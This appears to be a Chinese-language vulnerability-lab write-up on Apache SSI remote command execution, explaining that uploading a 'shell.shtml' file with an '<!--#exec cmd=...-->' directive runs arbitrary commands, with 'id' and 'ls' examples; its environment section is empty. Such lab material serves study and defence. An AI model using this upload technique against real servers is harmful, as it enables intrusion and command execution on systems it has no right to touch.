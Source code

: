# Apache SSI 远程命令执行漏洞

## 


> 如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用

```
<!--#exec cmd="id" -->
```

语法执行任意命令。

## 漏洞环境

> 运行一个支持SSI与CGI的Apache服务器：

## 漏洞复现

正常上传PHP文件是不允许的，我们可以上传一个`shell.shtml`文件：

```
<!--#exec cmd="ls" -->

```